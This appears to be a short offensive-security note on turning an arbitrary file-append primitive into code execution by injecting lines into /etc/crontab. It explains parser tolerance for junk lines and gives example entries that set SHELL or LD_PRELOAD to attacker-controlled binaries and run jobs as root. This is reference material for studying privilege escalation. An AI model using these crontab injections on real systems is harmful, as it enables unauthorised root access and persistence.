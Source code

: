 # Append To Arbitrary File
* as root or user you can append data to a file and ...
	* fully control content
	* partially control content (eg. parts of a logfile)
	* none (empty file)

### crontab
* requires `root` permissions
* file location `/etc/crontab`
* different cron variants exist https://pkgs.org/download/cron
* very strict syntax, no arbitrary text or bytes. Not even null-byte allowed
* comments start with `#`
* file has to end with a newline `\n`
* env variables assigned before cronjob line are set for the cronjob execution
	* use `SHELL` or `LD_PRELOAD` to execute a binary. File **must** be executable.

#### Clean File
* you can also set environment variable. But they have to be set before the cronjob
```
SHELL=/home/user/pwn
LD_PRELOAD=/home/user/lib.so
* * * * * root   (date;id) >> /tmp/crontab
@hourly root   (date;id) >> /tmp/crontab
```

#### Messy File
* see [`env.c` parsing](https://github.com/systemd-cron/crontab/blob/master/env.c#L132). if this fails to find an env var, it expects a crontab entry line.

```
fghr56%$^R4265ytd=invalid env var is ignored. But name must not contain space before = sign 8&$%(*& r5sa78d56rA&Ir67^RT%*x

SHELL=/home/user/pwn
LD_PRELOAD=/home/user/lib.so
* * * * * root   (date;id) >> /tmp/crontab

# this is a comment <00><ff> arbitrary bytes can be here
     # spaces are also fine
```